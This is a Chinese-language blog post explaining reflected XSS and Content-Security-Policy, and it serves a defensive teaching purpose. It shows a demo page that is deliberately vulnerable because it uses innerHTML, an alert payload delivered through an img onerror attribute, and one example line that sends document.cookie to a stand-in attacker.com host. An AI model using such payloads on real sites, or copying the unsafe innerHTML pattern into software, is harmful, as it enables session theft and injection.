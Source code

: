 ```yaml
---
title: CSP标头是什么？为什么有人能神不知鬼不觉地盗走你的信息？
published: 2025-07-31
description: 'CSP是内容安全策略，它可以防止攻击者向您的网站恶意注入脚本以盗走用户信息'
image: 'https://eo-r2.2x.nz/myblog/img/e245d917-2255-4d2d-85fb-aa7538a18022.webp'
tags: [XSS攻击, CSP]
category: '记录'
draft: false 
lang: ''
---
```


# 举个例子吧！



这是一个无CSP标头的网站： [点我](https://none-csp-demo.pages.dev/csp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E)

不出意外，你的浏览器会弹出一个提示

![](https://eo-r2.2x.nz/myblog/img/b279f283-b5d2-4dbd-955e-5b3bba6ff656.webp)

# 这是如何做到的？

这个项目开源在 [afoim/none_csp_demo](https://github.com/afoim/none_csp_demo)

HTML内容为

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>欢迎页面</title>
</head>
<body>
  <h1>欢迎</h1>
  <p>你好，<span id="name"></span>！</p>

  <script>
    // 从 URL 参数读取用户名并显示
    const params = new URLSearchParams(location.search);
    const name = params.get("name");
    document.getElementById("name").innerHTML = name;
  </script>
</body>
</html>
```

这个网站非常简单，网页通过查询符 `?name=xxx` 来动态显示用户名

比如你输入 https://none-csp-demo.pages.dev/nocsp?name=AcoFork 网页就会显示

![](https://eo-r2.2x.nz/myblog/img/366d0934-9c3a-4196-a7ae-1c230c916daf.webp)

而根据源码 网页是通过 `innerHTML` 直接进行文本插入的

这种方式没有任何的安全审查，会将传入的内容直接拼接到HTML中

那么...如果我们给网站这样一个 `name` 呢？

尝试输入 

https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现网站并没有打印出任何用户名，而且浏览器还弹出了一个奇怪的窗口

![](https://eo-r2.2x.nz/myblog/img/e86cfeed-a9d4-402b-aed0-fc3624f3e925.webp)

我们F12查看当前网页的源代码

![](https://eo-r2.2x.nz/myblog/img/ad38bc52-e689-4923-b79c-894dc9ab4136.webp)

发现在 `<span id="name"></span>` 中

被插入了一条 `<img src="x" onerror="alert('XSS攻击成功')">` ！

也就是说，网页把我们传入的 `name` 并没有解析为纯文本

而是暴力的直接插入了HTML

导致浏览器并没有渲染出来  `你好，<img src="x" onerror="alert('XSS攻击成功')"> ！` 

而是直接将 `<img src="x" onerror="alert('XSS攻击成功')">` 作为HTML去执行了！

由于 `src=x` 必定无法获取，又因为设置了 `onerror` 这个回退源

导致浏览器直接执行了 `alert('XSS攻击成功')` 这个脚本！

# 有什么危害？

举一反三，既然我们能让浏览器弹出一个提示框

那也就能做到其他事情

攻击者完全可以伪造一条URL，然后发给你，比如**获取你的浏览器Cookie然后通过Fetch发送到指定的服务器**！！！
`https://victim-site.com/page?name=<img src=x onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">`

# 如何设置CSP以避免这类攻击？

尝试访问这个URL，该URL设置了严格的CSP策略

https://none-csp-demo.pages.dev/csp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现并未弹出提示框，并且F12控制台出现报错

![](https://eo-r2.2x.nz/myblog/img/2febeecf-6f54-4c6a-b775-ef2ac8598f37.webp)

**以下是GPT给出的翻译和解释**

**翻译：**

> 拒绝执行内联脚本，因为它违反了以下 CSP 指令：`script-src 'self'`。要允许执行内联脚本，必须使用 `'unsafe-inline'` 关键字、指定哈希值（例如 `'sha256-raHeKmhSLYgI2dPMTS+XHraijHkbV3RTs8np6RhiKqQ='`），或使用随机数（例如 `'nonce-...'`）。

**解释：**  
你的 CSP 策略里规定只能加载本域（`'self'`）的脚本，但是你在 HTML 页面中写了 `<script>...</script>` 这样的**内联脚本**（inline script）。这被当前 CSP 限制了，无法执行。

这样我们就成功避免了XSS攻击

在HTML head中添加以下内容即可

```html
  <!-- 安全的 CSP 策略 -->
  <meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'self';
    object-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
  ">
```

# 如何保证我的数据安全？

1. 如果你正在运营站点，**请确保各个站点设置了严格的CSP策略**。这样，即使有攻击者想要XSS注入，也会被CSP策略拦截

2. **不要随意点击来历不明的链接或扫描来历不明的二维码**。对于短链接、混淆后的链接，首先先解析出最终链接，评估风险后再访问。或者使用无痕模式访问。也许目标网站并没有严格的CSP策略，这可能会导致你的个人数据泄露
